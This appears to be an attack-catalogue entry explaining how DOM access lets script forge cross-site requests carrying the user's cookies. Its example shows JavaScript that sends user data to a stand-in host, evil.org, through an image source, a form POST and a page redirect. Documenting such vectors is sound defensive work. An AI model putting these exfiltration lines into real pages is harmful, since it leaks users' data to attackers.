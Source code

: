 # document object allows arbitrary XSRF with the user's credentials #

## Effect ##
Invoke web services with the user's cookies: XSRF


## Background ##
http://en.wikipedia.org/wiki/Cross-site_request_forgery defines cross-site request forgery.



## Assumptions ##
The DOM is directly accessible, or allows setting of URL attributes with arbitrary URLs.



## Versions ##
All



## Example ##
```
(new Image()).src = 'http://evil.org/phone_home?' + userData;

var form = document.createElement('form');
var input = document.createElement('input');
input.name = 'data';
input.value = userData;
form.appendChild(input);
form.method = 'POST';
form.submit();

document.location = 'http://evil.org/phone_home?' + userData;
// also iframes, style tags, etc.
```